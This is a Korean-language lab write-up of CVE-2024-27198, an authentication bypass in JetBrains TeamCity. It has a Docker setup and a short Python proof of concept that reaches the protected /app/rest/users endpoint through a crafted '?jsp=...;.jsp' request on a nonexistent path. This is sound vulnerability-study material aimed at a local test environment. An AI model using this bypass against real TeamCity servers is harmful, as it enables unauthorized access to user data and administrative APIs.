

# CVE-2024-27198

**Contributors**
-   [김민주(@minnnjuuu)](https://github.com/minnnjuuu)


## 1. 요약

CVE-2024-27198은 JetBrains TeamCity On-Premises 2023.11.3 이하 버전에서 발생하는 **인증 우회 취약점**입니다.

보호된 REST API를 정상 경로로 호출하면 인증 실패를 의미하는
401 Unauthorized 또는 403 Forbidden이 반환됩니다.

반면, 조작된 `jsp` 파라미터와 `;.jsp` 경로를 사용하면 본 실습 환경에서는
동일한 API가 `200 OK`와 함께 사용자 목록을 반환합니다.

## 2. 환경 구성

다음 명령을 통해 테스트 환경을 구축합니다.

```bash
docker compose up -d
```

서버가 준비되면 브라우저에서 다음 주소로 접속할 수 있습니다.

```text
http://127.0.0.1:8111
```


## 3. 취약점 상세

2023.11.3 버전의 TeamCity는 웹 요청 처리 중 jsp 쿼리 파라미터를 읽어 내부 뷰 이름을 변경할 수 있습니다. 존재하지 않는 경로에 요청을 보내 404 처리 흐름을 유도한 뒤, jsp 값으로 인증이 필요한 API를 지정할 수 있습니다.

요청 형식은 다음과 같습니다.

```text
/<존재하지 않는 경로>?jsp=<보호된 API>;.jsp
```

위 요청 형식은 두 처리 단계의 차이를 악용합니다.

1. 문자열 검증 단계에서는 입력값이 `.jsp`로 끝나는 것처럼 보입니다.
2. Servlet 경로 해석 단계에서는 세미콜론 이후의 문자열이 경로 파라미터처럼 처리되어 보호된 REST API 경로와 매칭될 수 있습니다.

그 결과 외부 요청은 존재하지 않는 공개 경로로 시작하지만, 내부적으로는
인증이 필요한 REST API에 전달될 수 있습니다.


## 4. PoC 구현 및 취약점 증명

### 4.1 실행 방법
PoC 실행에 필요한 Python 패키지를 설치합니다.

```bash
python3 -m pip install requests
```

PoC를 실행합니다.

```bash
python3 PoC.py
```

### 4.2 PoC 코드

`./PoC.py`:

```python
#!/usr/bin/env python3
import requests

BASE_URL = "http://127.0.0.1:8111"

print("This is CVE-2024-27198 Vulnerability PoC")
print("==================================")


s = requests.Session()
headers = {"Accept": "application/json"}

direct = s.get(f"{BASE_URL}/app/rest/users", headers=headers, timeout=5)
bypass = s.get(f"{BASE_URL}/foo?jsp=/app/rest/users;.jsp", headers=headers, timeout=5)


print(f"[*] Direct: HTTP {direct.status_code}")
print(f"[*] Direct Response: \n{direct.text}")

print("\n")

print(f"[*] Bypass: HTTP {bypass.status_code}")
print(f"[*] Bypass Response: \n{bypass.text}")

print("==================================")
print("Direct Response != Bypass Response")
print("Confirmed CVE-2024-27198")
```

### 4.3 코드 동작 설명

**정상 요청**의 경우,

```python
direct = s.get(f"{BASE_URL}/app/rest/users",
headers=headers, timeout=5)
```

보호된 사용자 목록 API를 인증 없이 직접 호출하므로 `401 Unauthorized` 또는 `403 Forbidden`이 반환되어야 합니다.

`direct`의 응답 본문에서는 `Authentication required` 메시지를 확인할 수 있습니다.

**우회 요청**의 경우, 

```python
bypass = s.get(f"{BASE_URL}/foo?jsp=/app/rest/users;.jsp", headers=headers, timeout=5)
```

존재하지 않는 `/foo` 경로와 조작된 `jsp` 파라미터를 사용해 동일한 사용자 목록 API 접근을 시도합니다.

bypass의 응답 데이터를 확인해보면 user의 목록이 출력됨을 확인할 수 있습니다.


### 4.4 PoC 결과



인증 없이 직접 호출한 API는 차단되었지만, 조작된 대체 경로로 동일한 데이터에 접근할 수 있었음을 의미합니다.


## 5. 참고 자료

- [Vulhub CVE-2024-27198 실습 환경](https://github.com/vulhub/vulhub/tree/master/teamcity/CVE-2024-27198)
- [JetBrains 보안 공지](https://blog.jetbrains.com/teamcity/2024/03/additional-critical-security-issues-affecting-teamcity-on-premises-cve-2024-27198-and-cve-2024-27199-update-to-2023-11-4-now/)
- [NVD CVE-2024-27198](https://nvd.nist.gov/vuln/detail/CVE-2024-27198)


